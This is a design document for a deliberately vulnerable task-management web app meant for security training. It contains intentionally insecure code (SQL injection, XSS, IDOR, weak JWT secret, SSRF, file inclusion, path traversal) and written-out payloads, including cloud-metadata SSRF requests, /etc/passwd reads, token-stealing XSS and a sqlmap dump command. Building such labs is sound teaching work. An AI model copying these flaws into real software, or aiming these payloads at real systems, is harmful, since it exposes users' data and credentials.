




# Design Document

## Overview

This design document outlines the technical architecture and implementation approach for a deliberately vulnerable Task Management web application designed for cybersecurity education. The application follows modern full-stack development practices while intentionally incorporating specific security vulnerabilities for educational exploitation and remediation learning.

The system implements a three-tier architecture with React.js frontend, Node.js/Express backend, and PostgreSQL database, containerized using Docker for consistent development and deployment environments.

## Architecture

### System Architecture Diagram



### Technology Stack

**Frontend Technologies:**
- React.js 18+ with TypeScript for type safety and modern component architecture
- Tailwind CSS for responsive design and utility-first styling
- Redux Toolkit for centralized state management
- Vite for fast development builds and hot module replacement
- Axios for HTTP client with interceptors for authentication

**Backend Technologies:**
- Node.js with Express.js framework for RESTful API development
- JWT (jsonwebtoken) for authentication token management
- Helmet.js for security headers (to be disabled for vulnerability demonstration)
- CORS middleware for cross-origin resource sharing
- Express-validator for input validation (to be bypassed in vulnerable endpoints)

**Database Technologies:**
- PostgreSQL 14+ for production-grade relational data storage
- Prisma ORM for type-safe database operations and schema management
- Connection pooling with pg-pool for performance optimization
- Database migrations for schema versioning

**Development and Deployment:**
- Docker and Docker Compose for containerized development
- ESLint and Prettier for code quality and formatting
- Jest and React Testing Library for unit and integration testing
- Swagger/OpenAPI for API documentation

## Components and Interfaces

### Frontend Component Architecture



**Core Components:**

1. **AuthProvider Component**
   - Manages authentication state and JWT token storage
   - Provides authentication context to child components
   - Handles token refresh and logout functionality

2. **Dashboard Component**
   - Main application interface displaying user tasks
   - Implements task filtering, sorting, and search functionality
   - Contains vulnerable search implementation for SQL injection

3. **TaskDetail Component**
   - Detailed view for individual tasks
   - Includes comment section with XSS vulnerability
   - Implements IDOR vulnerability for unauthorized task access

4. **CommentSection Component**
   - Displays task comments with vulnerable HTML rendering
   - Uses dangerouslySetInnerHTML for XSS demonstration
   - Allows rich text input without sanitization

### Backend API Architecture

**API Endpoint Structure:**

```
/api/auth
├── POST /register - User registration with email verification
├── POST /login - User authentication and JWT token generation
├── POST /logout - Session invalidation
└── POST /refresh - JWT token refresh

/api/tasks
├── GET / - Retrieve user tasks (vulnerable to IDOR)
├── POST / - Create new task
├── GET /:id - Get specific task (vulnerable to IDOR)
├── PUT /:id - Update task (vulnerable to IDOR)
├── DELETE /:id - Delete task (vulnerable to IDOR)
└── GET /search - Search tasks (vulnerable to SQL injection)

/api/comments
├── GET /task/:taskId - Get task comments
├── POST /task/:taskId - Add comment (vulnerable to XSS)
└── DELETE /:id - Delete comment (vulnerable to IDOR)

/api/users
├── GET /profile - Get user profile
├── PUT /profile - Update user profile
├── POST /avatar - Upload/fetch profile picture (vulnerable to SSRF)
└── GET /files/:filename - Serve uploaded files (vulnerable to path traversal)

/api/tasks/import
└── POST / - Import tasks from external URL (vulnerable to SSRF)
```

**Middleware Stack:**

1. **Security Middleware (Intentionally Misconfigured)**
   - CORS with overly permissive settings
   - Helmet.js disabled for vulnerability demonstration
   - No rate limiting implementation

2. **Authentication Middleware**
   - JWT token verification with weak secret
   - Inconsistent authorization checks
   - Token storage in localStorage instead of httpOnly cookies

3. **Logging Middleware**
   - Request/response logging for security testing
   - Error logging with sensitive information exposure

## Data Models

### Database Schema Design



**Prisma Schema Definition:**

```prisma
model User {
  id            Int       @id @default(autoincrement())
  email         String    @unique
  passwordHash  String    @map("password_hash")
  firstName     String    @map("first_name")
  lastName      String    @map("last_name")
  createdAt     DateTime  @default(now()) @map("created_at")
  updatedAt     DateTime  @updatedAt @map("updated_at")
  emailVerified Boolean   @default(false) @map("email_verified")
  
  tasks         Task[]
  comments      Comment[]
  
  @@map("users")
}

model Task {
  id          Int        @id @default(autoincrement())
  userId      Int        @map("user_id")
  title       String
  description String?
  priority    Priority   @default(MEDIUM)
  status      TaskStatus @default(TODO)
  dueDate     DateTime?  @map("due_date")
  createdAt   DateTime   @default(now()) @map("created_at")
  updatedAt   DateTime   @updatedAt @map("updated_at")
  
  user        User       @relation(fields: [userId], references: [id])
  comments    Comment[]
  
  @@map("tasks")
}

model Comment {
  id        Int      @id @default(autoincrement())
  taskId    Int      @map("task_id")
  userId    Int      @map("user_id")
  content   String
  createdAt DateTime @default(now()) @map("created_at")
  updatedAt DateTime @updatedAt @map("updated_at")
  
  task      Task     @relation(fields: [taskId], references: [id])
  user      User     @relation(fields: [userId], references: [id])
  
  @@map("comments")
}

enum Priority {
  LOW
  MEDIUM
  HIGH
  URGENT
}

enum TaskStatus {
  TODO
  IN_PROGRESS
  COMPLETED
  CANCELLED
}
```

## Vulnerability Implementation Design

### 1. SQL Injection Vulnerability (CWE-89)

**Location:** Task search endpoint (`/api/tasks/search`)

**Implementation Strategy:**
```javascript
// Vulnerable implementation
app.get('/api/tasks/search', authenticateUser, async (req, res) => {
  const { query } = req.query;
  
  // VULNERABILITY: Direct string concatenation in SQL query
  const sqlQuery = `
    SELECT t.*, u.first_name, u.last_name 
    FROM tasks t 
    JOIN users u ON t.user_id = u.id 
    WHERE t.title LIKE '%${query}%' 
    OR t.description LIKE '%${query}%'
  `;
  
  try {
    const result = await db.query(sqlQuery);
    res.json(result.rows);
  } catch (error) {
    // VULNERABILITY: Error messages expose database structure
    res.status(500).json({ error: error.message });
  }
});
```

**Exploitation Vectors:**
- Union-based injection: `' UNION SELECT id, email, password_hash FROM users--`
- Boolean-based blind injection for data extraction
- Time-based blind injection using `pg_sleep()`

### 2. Cross-Site Scripting (XSS) Vulnerability (CWE-79)

**Location:** Comment display component

**Implementation Strategy:**
```jsx
// Vulnerable React component
const CommentDisplay = ({ comment }) => {
  return (
    <div className="comment-content">
      {/* VULNERABILITY: Dangerous HTML rendering without sanitization */}
      <div 
        dangerouslySetInnerHTML={{ __html: comment.content }}
        className="prose"
      />
      <div className="comment-meta">
        By: {comment.user.firstName} {comment.user.lastName}
      </div>
    </div>
  );
};
```

**Exploitation Vectors:**
- Stored XSS: `<script>alert('XSS')</script>`
- DOM manipulation: ``
- Session hijacking: `<script>fetch('/api/steal-token', {method: 'POST', body: localStorage.getItem('token')})</script>`

### 3. Insecure Direct Object References (IDOR) - CWE-639

**Location:** Task access endpoints

**Implementation Strategy:**
```javascript
// Vulnerable task retrieval
app.get('/api/tasks/:id', authenticateUser, async (req, res) => {
  const { id } = req.params;
  
  try {
    // VULNERABILITY: No ownership verification
    const task = await prisma.task.findUnique({
      where: { id: parseInt(id) },
      include: {
        user: { select: { firstName: true, lastName: true } },
        comments: {
          include: {
            user: { select: { firstName: true, lastName: true } }
          }
        }
      }
    });
    
    if (!task) {
      return res.status(404).json({ error: 'Task not found' });
    }
    
    res.json(task);
  } catch (error) {
    res.status(500).json({ error: 'Server error' });
  }
});
```

**Exploitation Vectors:**
- Direct task ID manipulation in URLs
- Accessing other users' tasks by incrementing/decrementing IDs
- Bulk data extraction through automated ID enumeration

### 4. Insecure Session Management (CWE-384)

**Implementation Strategy:**
```javascript
// Vulnerable JWT implementation
const generateToken = (user) => {
  // VULNERABILITY: Weak secret and no expiration
  return jwt.sign(
    { userId: user.id, email: user.email },
    'weak-secret-key', // Should be strong, random secret
    { expiresIn: '30d' } // Overly long expiration
  );
};

// Vulnerable token storage (frontend)
const login = async (credentials) => {
  const response = await api.post('/auth/login', credentials);
  // VULNERABILITY: Token stored in localStorage instead of httpOnly cookie
  localStorage.setItem('token', response.data.token);
  setUser(response.data.user);
};
```

### 5. Server-Side Request Forgery (SSRF) + Local File Inclusion (CWE-918, CWE-22)

**Location:** Profile picture upload and avatar fetching functionality

**Implementation Strategy:**
```javascript
// Vulnerable profile picture upload endpoint
app.post('/api/users/avatar', authenticateUser, async (req, res) => {
  const { imageUrl, fetchFromUrl } = req.body;
  
  if (fetchFromUrl && imageUrl) {
    try {
      // VULNERABILITY: No URL validation - allows SSRF attacks
      const response = await axios.get(imageUrl, {
        timeout: 10000,
        maxRedirects: 5
      });
      
      // VULNERABILITY: Allows fetching internal services and files
      if (imageUrl.startsWith('file://')) {
        // Local file inclusion vulnerability
        const filePath = imageUrl.replace('file://', '');
        const fileContent = fs.readFileSync(filePath, 'utf8');
        return res.json({ 
          success: true, 
          content: fileContent,
          message: 'File content retrieved'
        });
      }
      
      // Save the fetched image
      const fileName = `avatar_${req.user.id}_${Date.now()}.jpg`;
      const filePath = path.join('./uploads', fileName);
      
      fs.writeFileSync(filePath, response.data);
      
      // Update user avatar in database
      await prisma.user.update({
        where: { id: req.user.id },
        data: { avatarUrl: `/uploads/${fileName}` }
      });
      
      res.json({ success: true, avatarUrl: `/uploads/${fileName}` });
      
    } catch (error) {
      // VULNERABILITY: Error messages leak internal network information
      res.status(500).json({ 
        error: 'Failed to fetch image',
        details: error.message,
        requestedUrl: imageUrl,
        internalError: error.code
      });
    }
  }
});

// Vulnerable file serving endpoint
app.get('/api/files/:filename', (req, res) => {
  const { filename } = req.params;
  
  // VULNERABILITY: Path traversal - no input sanitization
  const filePath = path.join('./uploads', filename);
  
  try {
    // VULNERABILITY: Allows reading any file on the system
    const fileContent = fs.readFileSync(filePath);
    res.send(fileContent);
  } catch (error) {
    res.status(404).json({ error: 'File not found', path: filePath });
  }
});

// Advanced SSRF endpoint for "importing" tasks from external sources
app.post('/api/tasks/import', authenticateUser, async (req, res) => {
  const { importUrl, format } = req.body;
  
  try {
    // VULNERABILITY: Allows requests to internal network and cloud metadata
    const response = await axios.get(importUrl, {
      headers: {
        'User-Agent': 'TaskManager-Importer/1.0'
      }
    });
    
    // VULNERABILITY: Exposes internal service responses
    if (importUrl.includes('169.254.169.254')) {
      // AWS metadata service exploitation
      return res.json({
        success: true,
        metadata: response.data,
        message: 'Cloud metadata retrieved'
      });
    }
    
    if (importUrl.includes('localhost') || importUrl.includes('127.0.0.1')) {
      // Internal service scanning
      return res.json({
        success: true,
        internalService: response.data,
        headers: response.headers,
        status: response.status
      });
    }
    
    res.json({ success: true, data: response.data });
    
  } catch (error) {
    // VULNERABILITY: Network error information disclosure
    res.status(500).json({
      error: 'Import failed',
      targetUrl: importUrl,
      networkError: error.message,
      errorCode: error.code,
      responseStatus: error.response?.status,
      responseHeaders: error.response?.headers
    });
  }
});
```

**Advanced Exploitation Vectors:**

1. **Cloud Metadata Exploitation:**
   ```bash
   # AWS metadata service
   POST /api/tasks/import
   {
     "importUrl": "http://169.254.169.254/latest/meta-data/iam/security-credentials/",
     "format": "json"
   }
   ```

2. **Internal Network Scanning:**
   ```bash
   # Scan internal services
   POST /api/users/avatar
   {
     "imageUrl": "http://localhost:6379/info",
     "fetchFromUrl": true
   }
   ```

3. **Local File Inclusion:**
   ```bash
   # Read sensitive system files
   POST /api/users/avatar
   {
     "imageUrl": "file:///etc/passwd",
     "fetchFromUrl": true
   }
   
   # Read application configuration
   GET /api/files/../../../.env
   ```

4. **Path Traversal:**
   ```bash
   # Access files outside upload directory
   GET /api/files/../../../../etc/hosts
   GET /api/files/../../../package.json
   ```

**Database Schema Update:**
```prisma
model User {
  id            Int       @id @default(autoincrement())
  email         String    @unique
  passwordHash  String    @map("password_hash")
  firstName     String    @map("first_name")
  lastName      String    @map("last_name")
  avatarUrl     String?   @map("avatar_url")  // New field for SSRF vulnerability
  createdAt     DateTime  @default(now()) @map("created_at")
  updatedAt     DateTime  @updatedAt @map("updated_at")
  emailVerified Boolean   @default(false) @map("email_verified")
  
  tasks         Task[]
  comments      Comment[]
  
  @@map("users")
}
```

## Error Handling

### Vulnerable Error Handling Strategy

**Database Error Exposure:**
```javascript
// Intentionally verbose error handling for educational purposes
const handleDatabaseError = (error, res) => {
  console.error('Database Error:', error);
  
  // VULNERABILITY: Exposing internal database structure and errors
  res.status(500).json({
    error: 'Database operation failed',
    details: error.message,
    stack: error.stack, // Exposes application structure
    query: error.query  // Exposes SQL queries
  });
};
```

**Authentication Error Information Disclosure:**
```javascript
// Vulnerable authentication error handling
app.post('/api/auth/login', async (req, res) => {
  const { email, password } = req.body;
  
  const user = await prisma.user.findUnique({ where: { email } });
  
  if (!user) {
    // VULNERABILITY: User enumeration through different error messages
    return res.status(401).json({ error: 'User not found' });
  }
  
  const isValidPassword = await bcrypt.compare(password, user.passwordHash);
  
  if (!isValidPassword) {
    // VULNERABILITY: Different error message reveals valid emails
    return res.status(401).json({ error: 'Invalid password' });
  }
  
  // Continue with login...
});
```

## Testing Strategy

### Vulnerability Testing Framework

**1. Automated Security Testing:**
```javascript
// Jest test for SQL injection vulnerability
describe('SQL Injection Tests', () => {
  test('should be vulnerable to union-based injection', async () => {
    const maliciousQuery = "' UNION SELECT id, email, password_hash FROM users--";
    
    const response = await request(app)
      .get(`/api/tasks/search?query=${encodeURIComponent(maliciousQuery)}`)
      .set('Authorization', `Bearer ${validToken}`);
    
    // Verify that sensitive data is exposed
    expect(response.body).toContainEqual(
      expect.objectContaining({
        email: expect.any(String),
        password_hash: expect.any(String)
      })
    );
  });
});
```

**2. XSS Testing Suite:**
```javascript
describe('XSS Vulnerability Tests', () => {
  test('should execute stored XSS in comments', async () => {
    const xssPayload = '<script>window.xssExecuted = true;</script>';
    
    // Create comment with XSS payload
    await request(app)
      .post(`/api/comments/task/${taskId}`)
      .set('Authorization', `Bearer ${validToken}`)
      .send({ content: xssPayload });
    
    // Verify payload is stored without sanitization
    const response = await request(app)
      .get(`/api/comments/task/${taskId}`)
      .set('Authorization', `Bearer ${validToken}`);
    
    expect(response.body[0].content).toBe(xssPayload);
  });
});
```

**3. IDOR Testing Framework:**
```javascript
describe('IDOR Vulnerability Tests', () => {
  test('should allow access to other users tasks', async () => {
    // Create task as user1
    const task = await createTaskAsUser(user1Token);
    
    // Try to access task as user2
    const response = await request(app)
      .get(`/api/tasks/${task.id}`)
      .set('Authorization', `Bearer ${user2Token}`);
    
    // Should succeed due to IDOR vulnerability
    expect(response.status).toBe(200);
    expect(response.body.id).toBe(task.id);
  });
});
```

**4. SSRF and LFI Testing Suite:**
```javascript
describe('SSRF Vulnerability Tests', () => {
  test('should allow access to cloud metadata service', async () => {
    const ssrfPayload = {
      importUrl: 'http://169.254.169.254/latest/meta-data/iam/security-credentials/',
      format: 'json'
    };
    
    const response = await request(app)
      .post('/api/tasks/import')
      .set('Authorization', `Bearer ${validToken}`)
      .send(ssrfPayload);
    
    expect(response.status).toBe(200);
    expect(response.body.metadata).toBeDefined();
  });
  
  test('should allow local file inclusion', async () => {
    const lfiPayload = {
      imageUrl: 'file:///etc/passwd',
      fetchFromUrl: true
    };
    
    const response = await request(app)
      .post('/api/users/avatar')
      .set('Authorization', `Bearer ${validToken}`)
      .send(lfiPayload);
    
    expect(response.status).toBe(200);
    expect(response.body.content).toContain('root:');
  });
  
  test('should allow path traversal in file serving', async () => {
    const response = await request(app)
      .get('/api/files/../../../../etc/hosts')
      .set('Authorization', `Bearer ${validToken}`);
    
    expect(response.status).toBe(200);
    expect(response.text).toContain('localhost');
  });
});
```

### Penetration Testing Integration

**OWASP ZAP Integration:**
```yaml
# docker-compose.test.yml
version: '3.8'
services:
  zap:
    image: owasp/zap2docker-stable
    command: zap-baseline.py -t http://app:3000 -J zap-report.json
    volumes:
      - ./security-reports:/zap/wrk
    depends_on:
      - app
```

**SQLMap Testing Configuration:**
```bash
# SQLMap test script
sqlmap -u "http://localhost:3000/api/tasks/search?query=test" \
       --cookie="token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9..." \
       --dbs \
       --dump-all \
       --batch
```

**Advanced SSRF Testing with Burp Suite:**
```bash
# SSRF payload for cloud metadata
curl -X POST http://localhost:3000/api/tasks/import \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"importUrl":"http://169.254.169.254/latest/meta-data/","format":"json"}'

# Internal network scanning
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"http://localhost:22","fetchFromUrl":true}'

# Local file inclusion
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"file:///proc/version","fetchFromUrl":true}'
```

## Interactive Vulnerability Management System

### Vulnerability Dashboard Design

The application will include a dedicated **Security Lab** page that provides an interactive learning environment where users can toggle between vulnerable and secure code implementations in real-time.




This interactive system allows students to:
1. **See vulnerable vs secure code side-by-side**
2. **Toggle between implementations in real-time**
3. **Test attacks immediately and see results**
4. **Understand exactly why attacks succeed or fail**
5. **Learn proper mitigation techniques**

The toggle system will use hot-reloading for frontend components and endpoint replacement for backend routes, making it a truly interactive learning experience.

This design provides a comprehensive framework for building a deliberately vulnerable web application that serves as an effective educational tool for cybersecurity learning while maintaining professional development standards and realistic application architecture.